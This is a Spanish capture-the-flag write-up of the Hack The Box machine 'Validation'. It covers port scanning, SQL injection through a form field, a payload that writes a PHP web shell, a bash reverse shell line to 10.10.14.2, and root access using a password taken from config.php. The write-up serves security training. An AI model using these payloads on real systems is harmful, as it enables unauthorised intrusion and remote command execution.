 ```yaml
---
title:  "Writeup de la máquina Validation de Hack The Box"
date: 2023-04-16
mathjax: true
layout: post
categories: writeup
tags: sql-injection burpsuite php web-shell burpsuite
---
```


# Resolución de la máquina Validation de la plataforma de HackTheBox

![](https://i.ibb.co/SdzyZRf/validation.png)

### 💉 *"Máquina vulenrable a SQL Injection !!"*

**Como siempre, primero revisamos que tenemos conexión con la máquina víctima, desde nuestra máquina atacante. Una forma de hacerlo es a través del envío de paquetes ICMP con el comando "ping"**:

```bash
ping -c 1 10.10.11.116
```

**Ahora sabemos que tenemos conexión con la máquina ya que nos respondió con los paquetes que recibimos**

![](https://i.ibb.co/tMw3TDP/ping.png)

**Primeramente hacemos un escaneo Activo de la máquina en búsqueda de puertos abiertos con el siguiente comando:**

```bash
sudo nmap 10.10.11.116 -p- --min-rate 5000 -sS -Pn -oG openPorts -vvv 
```

Con el comando anterior exportamos el resultado en un formato en el cual podamos extraer los puertos abiertos con la ayuda de comandos como *"grep, awk y otros más"* para luego escanear en profundidad:

```bash
sudo nmap 10.10.11.116 -p22,80,4566,8080 -sV -sC -sS -Pn -oN scanComplete -vvv
```

#### Ahora con el escaneo completo obtenemos el siguiente resultado:

![](https://i.ibb.co/HX2nbYG/nmap.png)

**Como está abierto el puerto 80 corriendo el servicio http, entramos en el navegador web en la dirección IP de la máquina por ese puerto:**

*Pero antes de seguir con el pentesting de esta máquina, agregamos como host "validation.htb" con la IP de la máquina (10.10.11.116)*

![](https://i.ibb.co/ZMB5KXJ/etc-hosts.png)

**Vemos que tenemos un formulario simple, escrito en HTML con un input que nos permite elegir nuestro "Username", además de la región, que viene por defecto "Brazil". Si inspeccionamos el código fuente podemos ver que el <form> es decir, el formulario, envía los valores del "Username" y la "Región" al servidor web. Con esto podemos pensar que estos valores se alojan en una Base de Datos:**

![](https://i.ibb.co/nBv2wxC/form-html.png)

## Burp Suite

**Ahora configuramos la extensión de FoxyProxy en Firefox para redirigir la solicitud (o Request) a través de nuestro localhost por el puerto 8080 (127.0.0.1:8080). De este modo lo interceptamos con Burp Suite y desde ahí seguir:**

![](https://i.ibb.co/rdCRMvK/burp-suite.png)

**Ahora desde Burp Suite, comentamos el valor de el campo "country" y le inyectamos el código:**

```
or 1=1
```

![](https://i.ibb.co/h1gK15v/sqli-nourl.png)

Luego lo encodeamos con codificación URL:

![](https://i.ibb.co/crrD0TR/sqli-url.png)

**Ahora si regresamos a la parte web, vemos que se filtra el Error del Backend, lo cual nos hace pensar que es vulnerable a SQL Injection:**

![](https://i.ibb.co/xFDK3xZ/sqli-vulnerable.png)

## Una vez encontrada la vulnerabilidad, pasamos a crear un Backdoor

Como vemos en el sitio, la aplicación web utiliza PHP. Podemos intentar inyectarle una web-shell en PHP a través de un ataque de SQL Injection:

*El código que vamos a usar para agregar una web-shell con una SQL Injection será:*

```sql
' UNION SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'-- -
```

*Con el código anterior le decimos al servidor que también seleccione esa fracción de código, (que es el Backdoor), y lo inserte en el archivo /var/www/html/shell.php. Es decir que shell.php será nuestra web-shell en PHP. También es bueno saber que normalmente los servidores web que se ejecutan en Linux (estos son la mayoría actualmente, aunque no todos), tienen como raíz de directorios web la ruta /var/www/html*

![](https://i.ibb.co/M8HJL2d/backdoor.png)

## Ahora probamos y ¡Funciona!

**Tenemos lista nuestra web-shell en la ruta /shell.php, ahora para ejecutar un comando en el servidor solamente hay que añadir la siguiente query (consulta):**

```
shell.php?cmd={comando}
```

![](https://i.ibb.co/3Nc8csP/web-shell.png)

Ahora vamos a [https://www.revshells.com/](https://www.revshells.com/) y generamos un payload para ejecutar una Shell Reversa con Netcat y poder conectarnos al servidor desde una consola interactiva. El mismo lo ejecutamos como comando en el Backdoor de "shell.php".

Luego de probar con varios tipos de shells, me funcionó agregarle:

```bash
bash -c '{payload de la shell}'
```

Lo cual quedaría así:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.2/4545 0>&1'
```

Lo encodeamos como URL y ejecutamos el código en la web-shell, desde el navegador o desde Burp Suite.

**Vemos en el archivo "config.php" una contraseña.**

![](https://i.ibb.co/hZfGLGh/config-php.png)

**Como somos Pentesters, tenemos que probar todas las formas en que se podría acceder de forma privilegiada al sistema, así que intentamos usar esa contraseña para autenticarnos como usuario root:**

## ¡YES! Al parecer la contraseña de root es esa.

![](https://i.ibb.co/NsT0Z4n/flag-root.png)

### Y con esto terminamos la máquina y tenemos acceso total al sistema.

Happy Hacking!!

----

## Author: Mateo Fumis 
